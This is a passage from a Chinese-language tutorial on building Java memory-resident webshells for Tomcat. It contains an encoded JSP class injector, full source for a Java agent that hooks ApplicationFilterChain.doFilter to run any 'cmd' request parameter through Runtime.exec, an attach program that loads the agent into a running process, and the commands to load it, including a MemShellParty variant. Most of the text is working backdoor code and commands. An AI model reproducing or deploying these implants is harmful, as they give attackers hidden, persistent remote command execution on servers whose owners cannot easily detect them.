oMAKgAqQsARgCqAQAOZ2V0Q2xhc3NMb2FkZXIMAKwAmgoADACtDABfAGAKAAIArwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgcAsQEACWxvYWRDbGFzcwwAswAOCgCyALQBAAtuZXdJbnN0YW5jZQwAtgBSCgAMALcMAGMAYAoAAgC5AQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAuwC8CgACAL0BAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwAvwDACgACAMEBAAtkZWZpbmVDbGFzcwgAwwEAAltCBwDFAQARamF2YS9sYW5nL0ludGVnZXIHAMcJAMgAPQEAEWdldERlY2xhcmVkTWV0aG9kDADKACQKAAwAywoAKgAbAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMAM4AzwoAyADQAQALZ2V0UGlwZWxpbmUIANIBAAxpbnZva2VNZXRob2QBAF0oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMANQA1QoAAgDWAQAKaXNJbmplY3RlZAwA2ACpCgACANkBABBqYXZhL2xhbmcvU3lzdGVtBwDbAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07DADdAN4JANwA3wEAFnZhbHZlIGFscmVhZHkgaW5qZWN0ZWQIAOEBABNqYXZhL2lvL1ByaW50U3RyZWFtBwDjAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgwA5QDmCgDkAOcBABlvcmcuYXBhY2hlLmNhdGFsaW5hLlZhbHZlCADpAQAIYWRkVmFsdmUIAOsBABt2YWx2ZSBpbmplY3RlZCBzdWNjZXNzZnVsbHkIAO0BAAlnZXRWYWx2ZXMIAO8BABBqYXZhL3V0aWwvQXJyYXlzBwDxAQAGYXNMaXN0AQAlKFtMamF2YS9sYW5nL09iamVjdDspTGphdmEvdXRpbC9MaXN0OwwA8wD0CgDyAPUKAAwAegEAEGphdmEudXRpbC5CYXNlNjQIAPgBAApnZXREZWNvZGVyCAD6AQAGZGVjb2RlCAD8AQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcggA/gEADGRlY29kZUJ1ZmZlcggBAAEAE2phdmEvaW8vSU9FeGNlcHRpb24HAQIBAB1qYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbQcBBAoBBQA/AQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HAQcBABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtBwEJAQAFKFtCKVYMAAUBCwoBCgEMAQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWDAAFAQ4KAQgBDwEABHJlYWQBAAUoW0IpSQwBEQESCgEIARMBAAV3cml0ZQEAByhbQklJKVYMARUBFgoBBQEXAQALdG9CeXRlQXJyYXkBAAQoKVtCDAEZARoKAQUBGwEABWNsb3NlDAEdAAYKAQgBHgoBBQEeAQATamF2YS9sYW5nL1Rocm93YWJsZQcBIQEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBIwEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwElAQANZ2V0U3VwZXJjbGFzcwwBJwAwCgAMASgMAAUA5goBJAEqAQBgKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzPCo+O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcBLQEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyBwEvCgEwAD8BABJNZXRob2Qgbm90IGZvdW5kOiAIATIBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsMATQBNQoBMAE2CgEwAJ4KAS4BKgEAEltMamF2YS9sYW5nL0NsYXNzOwcBOgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uBwE8AQAXRXJyb3IgaW52b2tpbmcgbWV0aG9kOiAIAT4BACooTGphdmEvbGFuZy9TdHJpbmc7TGphdmEvbGFuZy9UaHJvd2FibGU7KVYMAAUBQAoBPQFBAQAEQ29kZQEADVN0YW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";
    byte[] bytecode = null;
    try {
        Class base64Clz = Class.forName("java.util.Base64");
        Object decoder = base64Clz.getMethod("getDecoder").invoke(null);
        bytecode = (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, base64Str);
    } catch (ClassNotFoundException ee) {
        Class datatypeConverterClz = Class.forName("javax.xml.bind.DatatypeConverter");
        bytecode = (byte[]) datatypeConverterClz.getMethod("parseBase64Binary", String.class).invoke(null, base64Str);
    }
    java.lang.reflect.Method defMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
    defMethod.setAccessible(true);
    Class<?> clazz = (Class<?>) defMethod.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
    if (getAndSetObjectM != null) {
        getAndSetObjectM.invoke(unsafe, page.getClass(), offset, rawModule);
    }
    clazz.newInstance();
%>
```

触发：在任意请求中添加cmd参数，即`cmd=calc`

### （5）agent内存马

agent内存马的基本步骤如下：

- 编写恶意组件或恶意代码
- 编写java agent，通过java agent hocok对应类插入恶意代码从而执行恶意代码或是动态注册恶意组件
- 编写附加程序，附加到进程从而注入java agent


方式一：此处选择直接执行恶意代码

- 新建一个项目EvilAgent

  pom：

  ```
  <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.example</groupId>
    <artifactId>EvilAgent</artifactId>
    <packaging>jar</packaging>
    <version>1.0-SNAPSHOT</version>
    <name>EvilAgent Maven Webapp</name>
    <url>http://maven.apache.org</url>
    <dependencies>
      <dependency>
        <groupId>junit</groupId>
        <artifactId>junit</artifactId>
        <version>3.8.1</version>
        <scope>test</scope>
      </dependency>
      <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>	3.30.2-GA</version> <!-- 版本可根据需要调整 -->
      </dependency>
    </dependencies>
  
    <build>
      <finalName>EvilAgent</finalName>
      <plugins>
        <plugin>
          <groupId>org.apache.maven.plugins</groupId>
          <artifactId>maven-jar-plugin</artifactId>
          <version>3.2.0</version>
          <configuration>
            <archive>
              <manifestEntries>
                <!-- 替换为你的代理类全限定名 -->
                <Agent-Class>org.example.Agent</Agent-Class>
                <!-- 如果代理需要在premain阶段执行，添加以下行 -->
  <!--              <Premain-Class>org.example.Agent</Premain-Class>-->
                <!-- 如果代理需要在agentmain阶段执行，添加以下行 -->
                <Agent-Main-Class>org.example.Agent</Agent-Main-Class>
                <Can-Redefine-Classes>true</Can-Redefine-Classes>
                <Can-Retransform-Classes>true</Can-Retransform-Classes>
              </manifestEntries>
            </archive>
          </configuration>
        </plugin>
      </plugins>
    </build>
  </project>
  
  ```

  Agent：

  ```
  package org.example;
  
  import java.lang.instrument.Instrumentation;
  
  
  public class Agent {
  
      public static void agentmain(String agentArgs, Instrumentation inst) {
  
          inst.addTransformer(new ClassTransformer());
      }
  
  }
  ```

   ClassTransformer:

  ```
  package org.example;
  
  import java.lang.instrument.ClassFileTransformer;
  import java.security.ProtectionDomain;
  import javassist.ClassClassPath;
  import javassist.ClassPool;
  import javassist.CtClass;
  import javassist.CtField;
  import javassist.CtMethod;
  
  public class ClassTransformer implements ClassFileTransformer {
      public static final String TARGET_CLASS_NAME = "org.apache.catalina.core.ApplicationFilterChain";
      private static final String TARGET_CLASS_INTERNAL = "org/apache/catalina/core/ApplicationFilterChain";
      private static volatile boolean injected = false;
      // 注入代码中的执行标记
      private static final String EXECUTION_MARKER = "CMD_EXECUTED_FLAG";
  
      @Override
      public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined,
                              ProtectionDomain protectionDomain, byte[] classfileBuffer) {
          // 检查是否是目标类且尚未注入
          if (!TARGET_CLASS_INTERNAL.equals(className) || injected) {
              return null;
          }
  
          try {
              System.out.println("injecting dofilter");
              ClassPool cp = ClassPool.getDefault();
              cp.insertClassPath(new ClassClassPath(this.getClass()));
  
              CtClass cc = cp.get(TARGET_CLASS_NAME);
  
              // 先添加静态标记字段到类中（类级别）
              CtField flagField = new CtField(CtClass.booleanType, EXECUTION_MARKER, cc);
              flagField.setModifiers(javassist.Modifier.PRIVATE | javassist.Modifier.STATIC | javassist.Modifier.VOLATILE);
              cc.addField(flagField, "false"); // 初始值为false
  
              // 获取目标方法
              CtMethod m = cc.getDeclaredMethod("doFilter");
  
              // 构建注入到方法中的代码
              StringBuilder injectedCode = new StringBuilder();
              // 同步块确保线程安全
              injectedCode.append("synchronized (").append(TARGET_CLASS_NAME).append(".class) {\n");
              // 检查标记是否已执行
              injectedCode.append("if (!").append(EXECUTION_MARKER).append(") {\n");
              // 设置标记为已执行
              injectedCode.append(EXECUTION_MARKER).append(" = true;\n");
  
              // 原始功能代码
              injectedCode.append("jakarta.servlet.http.HttpServletRequest req = (jakarta.servlet.http.HttpServletRequest) request;\n");
              injectedCode.append("jakarta.servlet.http.HttpServletResponse res = (jakarta.servlet.http.HttpServletResponse) response;\n");
              injectedCode.append("java.lang.String cmd = request.getParameter(\"cmd\");\n");
              // 添加空值检查
              injectedCode.append("if (cmd != null && !cmd.trim().isEmpty()) {\n");
              injectedCode.append("java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n");
              injectedCode.append("}\n");
  
              // 关闭条件判断和同步块
              injectedCode.append("}\n");
              injectedCode.append("}\n");
  
              m.insertBefore(injectedCode.toString());
  
              // 标记为已注入，防止重复注入
              injected = true;
              return cc.toBytecode();
          } catch (Exception e) {
              System.out.println("inject evil filter failed!");
              e.printStackTrace();
          }
          return classfileBuffer;
      }
  }
  
  ```

  然后install得到`EvilAgent.jar`

- 编写附加程序：

  pom:

  ```
  <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
  
    <groupId>org.example</groupId>
    <artifactId>AgentInject</artifactId>
    <version>1.0-SNAPSHOT</version>
    <packaging>jar</packaging>
  
    <name>AgentInject</name>
    <url>http://maven.apache.org</url>
  
    <properties>
      <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
  
    <dependencies>
      <dependency>
        <groupId>junit</groupId>
        <artifactId>junit</artifactId>
        <version>3.8.1</version>
        <scope>test</scope>
      </dependency>
    </dependencies>
    <build>
      <plugins>
        <plugin>
          <groupId>org.apache.maven.plugins</groupId>
          <artifactId>maven-jar-plugin</artifactId>
          <version>3.2.0</version>
          <configuration>
            <archive>
              <manifest>
                <mainClass>org.example.Injector</mainClass>
              </manifest>
            </archive>
          </configuration>
        </plugin>
      </plugins>
    </build>
  </project>
  
  ```

  Injector：

  ```
  package org.example;
  
  import com.sun.tools.attach.VirtualMachine;
  
  public class Injector
  {
      public static void main(String[] args) throws Exception {
          if (args.length != 2) {
              System.err.println("Usage: java Injector <pid> <agent.jar>");
              return;
          }
  
          String pid = args[0];
          String agentJar = args[1];
  
          VirtualMachine vm = VirtualMachine.attach(pid);
          vm.loadAgent(agentJar);
          vm.detach();
  
          System.out.println("Agent loaded successfully.");
      }
  }
  
  ```

- 由于使用idea，可以直接从控制台获取进程id 24156，于是执行以下命令

  ```
  java -jar D:\Local_AI_auxiliary_system\Code\java\AgentInject\target\AgentInject-1.0-SNAPSHOT.jar 24156 D:\Local_AI_auxiliary_system\Code\java\EvilAgent\target\EvilAgent.jar
  ```

- 请求任意路径携带cmd参数如：`/?cmd=calc`，然后成功弹出计算器

值得注意的是，目标的某些依赖可能会使用另一个版本的javassist，这在做agent时会导致不兼容，因此需要先做排除并引入与Agent相同版本的javassist。


方式二：直接使用MemShellParty



下载的agent名为`TomcatCommandMemShellAgent.jar`，获取进程id后执行以下命令：

```
jattach.exe 24736 load instrument false TomcatCommandMemShellAgent.jar
```

jattach下载地址：https://github.com/jattach/jattach/releases

同样请求任意路径携带cmd参数如：`/?cmd=calc`，然后成功弹出计算器


## 注

MemShellParty 生成内存马的基本结构：

在使用MemShellParty生成jsp内存马会包含以下部分：

- 经过base64编码的恶意组件类（内存马）
- 经过base64编码且包含恶意组件类的注入器类
- 使用ClassLoaderJSP或DefineClassJSP或JSPX的方式对注入器类进行打包

生成JakartaListener内存马：




## 参考

- https://xz.aliyun.com/news/16168
- https://github.com/ReaJason/MemShellParty


